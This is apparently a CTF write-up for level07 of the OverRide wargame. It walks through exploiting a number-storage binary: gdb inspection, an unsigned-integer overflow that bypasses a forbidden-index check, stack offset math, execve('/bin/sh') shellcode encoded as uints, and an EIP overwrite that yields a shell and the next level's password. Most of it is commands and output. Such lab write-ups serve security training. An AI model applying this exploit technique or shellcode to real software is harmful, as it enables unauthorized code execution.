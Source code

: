***
```
   level07@OverRide:~$ ./level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: store
   Number: 132
   Index: 4
   Completed store command successfully
   Input command: read
   Index: 4
   Number at data[4] is 132
   Completed read command successfully
   Input command: read
   Index: 1
   Number at data[1] is 0
   Completed read command successfully
   Input command: read
   Index: 9999999999999999999999999999999999
   Number at data[4294967295] is 0
   Completed read command successfully
   Input command: store
   Number: 999999999999999999999999999999999
   Index: 2
   Completed store command successfully
   Input command: read
   Index: 2
   Number at data[2] is 4294967295
   Completed read command successfully
   Input command: quit
```
***

   level07@OverRide:~$ gdb level07
   Non-debugging symbols:
   0x0804842c  _init
   0x08048470  printf
   0x08048470  printf@plt
   0x08048480  fflush
   0x08048480  fflush@plt
   0x08048490  getchar
   0x08048490  getchar@plt
   0x080484a0  fgets
   0x080484a0  fgets@plt
   0x080484b0  __stack_chk_fail
   0x080484b0  __stack_chk_fail@plt
   0x080484c0  puts
   0x080484c0  puts@plt
   0x080484d0  __gmon_start__
   0x080484d0  __gmon_start__@plt
   0x080484e0  __libc_start_main
   0x080484e0  __libc_start_main@plt
   0x080484f0  memset
   0x080484f0  memset@plt
   0x08048500  __isoc99_scanf
   0x08048500  __isoc99_scanf@plt
   0x08048510  _start
   0x08048540  __do_global_dtors_aux
   0x080485a0  frame_dummy
   0x080485c4  clear_stdin
   0x080485e7  get_unum
   0x0804861f  prog_timeout
   0x08048630  store_number
   0x080486d7  read_number
   0x08048723  main
   0x08048a00  __libc_csu_init
   0x08048a70  __libc_csu_fini
   0x08048a72  __i686.get_pc_thunk.bx
   0x08048a80  __do_global_ctors_aux
   0x08048aac  _fini
   (gdb)

***

With this information as well as analysis of assembler dump of functions we can say that:
 
 * All numbers are read with scanf as a uint into data array. Therefore index can be used to move on stack beyond 100 uints and rewrite the return address of main function 

 * At the start of the program all arguments and env variables are deleted. This prevents us from storing shellcode in an env variable as we did before 

* All 3rd indeces are forbidden which is troublesome for writing anything consecutive into the array. But this can be bypassed with uint overflow as pointer arithmetic is used for accessing the array

So the initial plan is to store shellcode in the data array and overwrite eip to jump to our shellcode

For this let's get eip and array addresses on stack:

***

   (gdb) b main
   Breakpoint 1 at 0x8048729
   (gdb) r
   Starting program: /home/users/level07/level07

   Breakpoint 1, 0x08048729 in main ()
   (gdb) info frame
   Stack level 0, frame at 0xffffd710:
   eip = 0x8048729 in main; saved eip 0xf7e45513
   Arglist at 0xffffd708, args:
   Locals at 0xffffd708, Previous frame's sp is 0xffffd710
   Saved registers:
   ebp at 0xffffd708, eip at 0xffffd70c   # eip at 0xffffd70c -  address eip is saved at = main return address

  ***
```
   # Let's find where array is located

   (gdb) b read_number
   Breakpoint 1 at 0x80486dd
   (gdb) r
   Starting program: /home/users/level07/level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: read

   Breakpoint 1, 0x080486dd in read_number ()
   (gdb) x $ebp+0x8              # at this point location of data array is loaded on stack in read_number function
   0xffffd520:     0xffffd544    # 0xffffd544 - array address (altered by gdb with env variables); 0xffffd520 - its place on stack
```
***

   (gdb) p 0xffffd70c - 0xffffd544     # offset in main of saved return address from the array
   $1 = 456
   (gdb) p 456 / 4                     # divide by step in the array (uint is 4 bytes)
   $2 = 114                            # index of eip in data array
   
   (gdb) p 0xffffd544 - 0xffffd520     # offset between the array and its address pushed on stack 
   $4 = 36

***

Rip Index: 114 % 3 = 0 -> This index is forbidden but we know how to solve this

Runtime array address index: -36 / 4 = -9

To put shellcode into the array we need to translate it into uints (each 4 bytes long):
Shellcode for `execve("/bin/sh")` from [here](https://shell-storm.org/shellcode/files/shellcode-575.html): "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

hex      | \x6a\x0b\x58\x99  | \x52\x68\x2f\x2f  | \x73\x68\x68\x2f  | \x62\x69\x6e\x89  | \xe3\x31\xc9\xcd    | /x80
4bytes   | 0x99580b6a        | 0x2f2f6852        | 0x2f686873        | 0x896e6962        | 0xcdc931e3          | 0x80
uint     | 2572684138        | 791636050         | 795371635         | 2305714530        | 3452514787          | 128

To put shellcode at the beginning indeces of the array (0-5) we need to get around forbidden ones (0, 3).
For this we use uint overflow:

2**(32) overflows to 0: 
(2**(32) / 4) % 3 = 1 

- Index 0: (2**(32)) / 4 = 1073741824
- Index 3: (2**(32) + (3 * 4)) / 4 = 1073741827
 
To store runtime array address at eip we also has to use this trick:

- Index 114: (2^(32) + (114 * 4)) / 4 = 1073741938

***
```
   level07@OverRide:~$ ./level07
   ----------------------------------------------------
   Welcome to wil's crappy number storage service!
   ----------------------------------------------------
   Commands:
      store - store a number into the data storage
      read  - read a number from the data storage
      quit  - exit the program
   ----------------------------------------------------
      wil has reserved some storage :>
   ----------------------------------------------------

   Input command: store
   Number: 2572684138
   Index: 1073741824
   Completed store command successfully
   Input command: store
   Number: 791636050
   Index: 1
   Completed store command successfully
   Input command: store
   Number: 795371635
   Index: 2
   Completed store command successfully
   Input command: store
   Number: 2305714530
   Index: 1073741827
   Completed store command successfully
   Input command: store
   Number: 3452514787
   Index: 4
   Completed store command successfully
   Input command: store
   Number: 128
   Index: 5
   Completed store command successfully
   Input command: read
   Index: -9
   Number at data[4294967287] is 4294956388
   Completed read command successfully
   Input command: store
   Number: 4294956388
   Index: 1073741938
   Completed store command successfully
   Input command: quit
   $ whoami
   level08
   $ cat /home/users/level08/.pass
   7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```